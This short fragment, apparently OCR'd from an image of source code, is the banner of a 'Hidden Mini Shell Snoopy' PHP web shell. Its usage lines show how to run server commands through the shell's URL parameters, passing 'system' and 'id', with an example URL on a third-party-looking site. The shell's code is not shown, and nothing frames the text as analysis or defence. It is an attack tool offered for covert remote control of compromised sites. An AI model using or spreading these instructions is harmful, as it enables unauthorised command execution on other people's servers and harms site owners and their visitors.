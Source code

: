 [!] Hidden Mini Shell Snoopy [!]
How to use access your shell: php?_=system&__=id
Example: site.co.li/shell.php?_=system&__=id
